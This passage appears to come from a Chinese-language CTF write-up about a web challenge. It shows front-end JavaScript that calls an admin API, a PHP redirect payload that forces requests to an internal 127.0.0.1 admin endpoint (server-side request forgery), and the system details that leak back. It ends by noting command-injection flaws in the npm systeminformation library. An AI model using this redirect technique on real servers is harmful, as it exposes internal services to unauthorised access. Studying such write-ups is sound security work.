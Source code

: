```html
}

function retrieveServiceInfo() {
fetch('/api/admin/service_info?name=' + encodeURIComponent(serviceName.value))
.then(response => {
                    if (response.status == 200) {
                        return response.json();
                    }
                    throw Error('Server is unavailable');
                },
                failResponse => {
                    printOutput('Server is unavailable');
                })
                .then(result => {
                    printApiResult(result[0]);
                },
                errorMsg => {
                    printOutput(errorMsg);
                });
}

function printApiResult(jsonObject) {
result = '';
for (const [key, value] of Object.entries(jsonObject)) {
 result += `${key}: ${value}\\n`;
}
printOutput(result);
}

function printOutput(content) {
output.value = content;
}
</script>
</html>


```



```php
<?php
header("Location: http://127.0.0.1/api/admin/os_info");
?>
```

```json
{"status":"ok","content":{"platform":"linux","distro":"Ubuntu","release":"16.04.7 LTS","codename":"Xenial Xerus","kernel":"5.4.0-66-generic","arch":"x64","hostname":"c50a20ae1c85","fqdn":"c50a20ae1c85","codepage":"UTF-8","logofile":"ubuntu","serial":"c50a20ae1c85","build":"","servicepack":"","uefi":false}}
```

title上的System information说明此处用了npm systeminformation 库，查找漏洞后发现有多个命令注入漏洞，
